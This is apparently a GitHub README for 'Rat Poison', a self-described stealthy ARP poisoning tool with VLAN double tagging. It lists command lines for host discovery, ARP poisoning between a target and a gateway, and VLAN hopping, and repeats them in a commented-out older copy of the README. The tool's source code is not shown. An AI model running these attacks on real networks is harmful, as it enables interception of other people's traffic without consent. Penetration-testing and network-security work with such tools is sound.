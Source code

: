 # Rat Poison

A self-made ARP poisoning tool that is stealthy and RFC 5527 compliant. It is capable of VLAN double tagging and ARP poisoning.

## Usage Examples

Help Menu
```bash
python poison.py -h
```

Show Active Hosts within the Local Network
```bash
python poison.py -l 192.168.1.0/24
```
Enable Stealth Mode
```bash
python poison.py --stealth
```
Optional Arguments
ARP Poisoning Mode without VLAN Double Tagging
To be used with -T, -M, -G

```bash
python poison.py -P
```
ARP Poisoning Mode with VLAN Double Tagging
To be used with -T, -M, -G, -TM, -MM, -GM, --vlan1, --vlan2

```bash
python poison.py -PV
```

## Attack Examples

Normal ARP Poisoning
```bash
python poison.py -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1
```

Normal ARP Poisoning with Stealth
```bash
python poison.py --stealth -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1
```

VLAN Hopping with ARP Poisoning (Native VLAN 10, Target VLAN 20)
Requires Target MAC, Monitor MAC, Gateway MAC with vlan1 and vlan2
```bash
python poison.py -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1 -TM "AA:AA:AA:AA:AA:AA" -MM "BB:BB:BB:BB:BB:BB" -GM "CC:CC:CC:CC:CC:CC" --vlan1 10 --vlan2 20
```











<!-- 

# Rat Poison
Self-made ARP poisoning tool. <br/>
Stealthy.<br/>
RFC 5527 Compliant.<br/>
capable of vlan double tagging + arp poison.<br/>

### Usage
#### Help Menu 
```
python poison.py -h                 
```

#### Shows all active host within the local network using ARP Broadcast
```
python poison.py -l 192.168.1.0/24  
```

#### Prevents host machine from being discovered
```
python poison.py --stealth
```


###Options Arguments
ARP poisoning mode without VLAN double tagging<br>
**\*To be used with -T, -M, -G**
```
python poison.py -P                                   
```
ARP poisoning mode with VLAN double tagging<br>
**\*To be used with -T, -M, -G, -TM, -MM, -GM --vlan1 --vlan2**
```
python poison.py -PV
```

#### Arguments Usage
Specify target’s IP address
```
-T 192.168.10.10
```

Specify monitoring PC IP address
```
-M 192.168.10.11
```

Specify gateway/target2 IP address
```
-G 192.168.10.1
```

To specify target’s MAC address
```
-TM “AA:AA:AA:AA:AA:AA”
```

Specify monitoring PC MAC address
```
-MM “BB:BB:BB:BB:BB:BB”
```

Specify gateway/target2 MAC address
```
-GM “CC:CC:CC:CC:CC:CC”
```

To specify the first Dot1Q VLAN number
```
--vlan1 10
```

To specify second Dot1Q VLAN number
```
--vlan2 20
```


###Attacks Usages
#### Nommal ARP Poisoning
```
python poison.py -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1
```

#### Nommal ARP Poisoning with stealth
```
python poison.py --stealth -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1
```

#### VLAN Hopping with ARP Poisoning (Native VLAN 10, Target VLAN 20)
\* Requires Target MAC, Monitor MAC,Gateway MAC with vlan1 and vlan2

```
python poison.py -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1 -TM "AA:AA:AA:AA:AA:AA" -MM "BB:BB:BB:BB:BB:BB" -GM "CC:CC:CC:CC:CC:CC" --vlan1 10 --vlan2 20
```


                                                 
 -->